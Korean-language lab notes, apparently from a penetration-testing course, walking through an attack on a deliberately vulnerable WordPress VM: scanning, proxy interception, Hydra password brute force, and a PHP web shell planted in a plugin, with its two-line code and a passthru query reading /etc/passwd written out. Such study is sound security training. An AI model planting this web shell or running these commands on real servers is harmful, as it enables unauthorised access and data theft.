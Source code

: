 [[slitaz linux set]]

# \[탐색]
![[Pasted image 20240930112524.png]]
![[Pasted image 20240930112731.png]]
- CVE-2003-1418 디렉토리에 적용가능한 취약점을 알려줌

도메인 이름을 설정하고 탐색 가능
![[Pasted image 20240930113646.png]]

탐색할 디렉토리에 대한 정보를 알려주는 것 또한 가능
![[Pasted image 20240930114046.png]]

`readme.html`에서 버전을 확인
![[Pasted image 20240930113945.png]]

# \[웹 접속]
![[Pasted image 20240930113020.png]]
![[Pasted image 20240930114904.png]] 힌트

워드프래스 스캔
![[Pasted image 20240930120427.png]]
![[Pasted image 20240930120847.png]]
![[Pasted image 20240930120753.png]]
- admin에 대한 로그인 정보가 있다는 것을 알 수 있다.

# \[Password Attack]
프록시를 설정하고 로그인 페이지와 내가 주고 받는 정보를 볼 수 있다.
![[Pasted image 20240930121424.png]]
parameter='value'& 구조로 되어 있다.
![[Pasted image 20240930121958.png]]
- action 파라미터에 성공에 대한 정보가 들어가면 로그인이 될 것이다.


![[Pasted image 20240930122530.png]]
포스트 방식으로 서버에 요청한 점을 활용

히드라 툴을 활용한 [[Brute Force Attack]]

![[Pasted image 20240930124220.png]]
- 취약한 비밀번호를 이용해 관리자 툴에 접속에 성공

# \[Web Shell]
힌트에서 나왔듯 웹 쉘을 활용해 서버에 언제든 접속 가능하게 할 수 있다.
![[Pasted image 20240930124813.png]]
![[Pasted image 20240930125025.png]]
![[Pasted image 20240930140229.png]]
- 플러그인의 취약점을 활용해 웹 쉘을 작성

![[Pasted image 20240930140302.png]]![[Pasted image 20240930143355.png]]
```
@extract($_REQUEST); // 문자열을 입력받아 추출
if (isset($x) && isset($y)) @die($x($y)); // 추출 결과가 x(함수) y(명령어)에 대입
```
코드 변경사항 저장

`http://vulnwp/wordpress/wp-content/plugins/`에 플러그인이 모두 저장되어 있다.
![[Pasted image 20240930141315.png]]
`x=passthru&y=pwd;uname -a cat /etc/issu; cat /etc/passwd;` 이어서 명령어를 입력할 수 있다.
![[Pasted image 20240930143420.png]]
![[Pasted image 20240930143510.png]]

![[Pasted image 20240930142417.png]]
브라우저에서는 문자열로 인식하기 때문에 웹 쉘을 사용하게 된다.


![[Pasted image 20240930142533.png]]
![[Pasted image 20240930142544.png]]프록시에서 인터셉트 모드를 켠 상태

![[Pasted image 20240930142648.png]]
로그인 시도 > 브래이크 포인트에 갖힘
![[Pasted image 20240930142744.png]]
![[Pasted image 20240930142930.png]]![[Pasted image 20240930142944.png]]![[Pasted image 20240930143000.png]]

![[Pasted image 20240930143731.png]]
엑티브 스캔 툴을 활용해 스캔 작업을 더 편리하게(더 상세하게) 검사할 수 있다.
![[Pasted image 20240930144352.png]]
상세 검사를 통해 알아낸 각각의 취약점에 대한 정보 및 취약점 코드를 확인할 수 있다.

